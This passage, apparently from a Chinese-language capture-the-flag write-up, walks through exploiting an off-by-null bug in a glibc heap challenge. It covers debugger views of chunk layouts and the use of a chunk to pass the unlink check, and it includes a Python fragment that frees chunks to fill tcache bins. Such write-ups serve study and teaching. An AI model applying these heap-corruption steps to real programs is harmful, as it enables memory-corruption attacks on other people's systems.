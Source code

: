 这里有个0x98的off-by-null

我们调试一下

在进行edit之前的堆块情况

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01b7354f972c339e39.png)

进行edit之后

[![](https://p5.ssl.qhimg.com/t016c38445d3846803d.png)](https://p5.ssl.qhimg.com/t016c38445d3846803d.png)

将size进行了减少

这里是为了在57号堆块的pre_size上进行留存，57号的pre_size就不变了

[![](https://p0.ssl.qhimg.com/t01f4c9a388ee75a8e2.png)](https://p0.ssl.qhimg.com/t01f4c9a388ee75a8e2.png)

之后进行的三行分配正好将0x200消耗完(下面的54 55 56)

此时的总体堆块分布

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t0194b1f1f16438b402.png)

这里的54号堆块是之后要写heap地址 ，用来绕过unlink的check的

进行到当前这步，堆块的情况如下

[![](https://p4.ssl.qhimg.com/t01eeb3f03559daec93.png)](https://p4.ssl.qhimg.com/t01eeb3f03559daec93.png)

因为这个堆块是unsortedbin 分配来的，所以残留着libc地址（但是并没有什么用），我们希望将其改成heap地址

### <a class="reference-link" name="3%E3%80%81"></a>3、

之后又进行了一轮delete

```
#------tcache
    for i in range(7,14):#0x98
        delete(i)
    for i in range(0,7):#0x88
        delete(i)
    for i in range(42,49):#0xe8
        delete(i)        


    #------tcache



    delete(50)#0x98
    delete(54)
    delete(59)#0xe8
    delete(53)
```
